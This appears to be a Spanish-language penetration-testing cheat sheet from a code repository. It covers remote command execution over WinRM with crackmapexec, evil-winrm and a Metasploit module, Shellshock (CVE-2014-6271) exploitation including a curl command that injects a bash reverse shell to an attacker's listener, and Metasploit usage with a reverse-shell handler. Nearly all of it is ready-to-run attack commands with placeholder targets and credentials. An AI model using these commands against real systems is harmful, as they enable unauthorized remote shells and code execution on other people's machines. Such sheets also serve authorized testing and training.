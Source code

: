 ##### Ejecución de comandos

```bash
$ crackmapexec winrm <IP-TARGET> -u <USER> -p <PASSWORD> -x "whoami"
```

### evil-winrm.rb

```bash
$ evil-winrm.rb -u <USER> -p <PASSWORD> -i <IP-TARGET>
```

#### Metasploit

```bash
$ msfconsole
msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set RHOSTS <IP-TARGET>
msf6> set FORCE_VBS true
msf6> set USERNAME <USER>
msf6> set PASSWORD <PASSWORD>
msf6> run
```

## Linux

### CVE-2014-6271 - Shellshock

```bash
$ nmap -sCV --sript http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <IP-TARGET>
```

```bash
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1' http://<IP-TARGET>/file.cgi
```

---

# Metasploit Framework (MSF)

```bash
msf6 > search x                                        # realiza busquedas de modulos
msf6 > workspace -a <name>                             # crea un nuevo espacio de trabajo
msf6 > use 1                                           # usar exploit (por número)
msf6 > use exploit/linux/samba/is_known_pipename       # usar exploit (por nombre)
msf6 > show options                                    # listar las opciones del modulo
msf6 > set payload windows/x64/meterpreter/reverse_tcp # setear parámetros
msf6 > sessions -l                                     # lista las sesiones
msf6 > sessions -u <session-id>                        # actualiza una sesión a Meterpreter
```

Ejemplo: Por ejemplo, para configurar un listener para un reverse shell:

```bash
$ msfconsole
msf6> use exploit/multi/handler
msf6> set payload <REVERSE SHELL PAYLOAD>
msf6> set LHOST <IP-LOCAL>
msf6> set LPORT <LOCAL-PORT>
msf6> run
```
